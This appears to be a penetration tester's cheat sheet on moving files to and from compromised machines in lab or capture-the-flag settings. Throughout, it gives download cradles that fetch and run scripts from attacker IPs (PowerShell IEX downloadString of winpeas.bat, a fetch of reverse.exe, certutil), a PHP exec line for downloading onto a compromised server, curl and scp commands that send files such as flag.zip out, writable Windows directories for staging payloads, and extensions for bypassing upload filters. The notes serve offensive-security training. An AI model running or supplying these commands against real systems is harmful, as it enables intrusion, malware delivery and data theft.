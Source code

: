 # Linux

wget http://IP:PORT/FILE
# python 
python -m SimpleHTTPServer
python3 -m http.server

## http sever saves POST request data

```python
#!/usr/bin/python 
import SimpleHTTPServer
import BaseHTTPServer class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler): 
def do_PUT(self):
	print self.headers
	length = int(self.headers["Content-Length"]) 
	path = self.translate_path(self.path) 
	with open(path, "wb") as dst: 
	    dst.write(self.rfile.read(length)) 

    
 if __name__ == '__main__': 
	SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```




# Windows 

## Writable Directories
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

## Powershell
```powershell
Powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')"

IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/winpeas.bat')

Invoke-WebRequest -Uri 10.10.16.4/winpeas.bat -OutFile winpeas.bat

IWR -Uri http://10.10.10.10/winpeas.bat -OutFile winpeas.bat

````


## Certutil
```bash
certutil -urlcache -f http://IP/FILE OUTPUTFILENAME
```

## SMB

### copy

![[SMB 443#SMB server]]
### connect smb windows powershell
```powershell


$pass = convertto-securestring '1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super', $pass)
New-PSDrive -Name super -PSProvider FileSystem -Credential 
$cred -Root \\10.10.17.185\super

# add $pass variable with the share password 1234
# add $cred with the share creds username: super password: $pass variable
# New-PSDrive mount share

```
### Mount share

```
net use z: \\10.10.10.10\SHARENAME
```

# php
```php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.17.185/FILE_NAME','OUT_FILE_NAME')\""); ?>
```

```powershell
powershell Invoke-WebRequest -Uri http://10.10.16.4/winpeas.bat -OutFile winpeas.bat

powershell Invoke-WebRequest -Uri http://10.10.16.4/reverse.exe -OutFile ke.exe

```

# scp 
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:
SCP -i KEY FILE user@target:/tmp/FILE:
-i for ssh key
P - Specifies the remote host ssh port.
-p - Preserves files modification and access times.
-q - Use this option if you want to suppress the progress meter and non-error messages.
-C - This option forces scp to compresses the data as it is sent to the destination machine.
```bash
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:

scp charix@10.10.10.84:secret.zip . # getting secret.zip from charix usuer

```
# Curl
```bash
# Upload file with curl
curl DEST_IP --upload-file FILE
curl 192.77.184.2 --upload-file flag.zip
```





# FTP
python -m pyftpdlib 21
ftp 10.10.10.10




```
Invoke-WebRequest -Uri http//192.168.181.128/linPEAS.ps1 -OutFile
File C:\Users\administrator\Documents\WindowsPowerShell\Modules\Recon\adPEAS.ps1
```

# Extension evasion

**File Upload General Methodology**
Other useful extensions:
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, phar .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

  Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws




 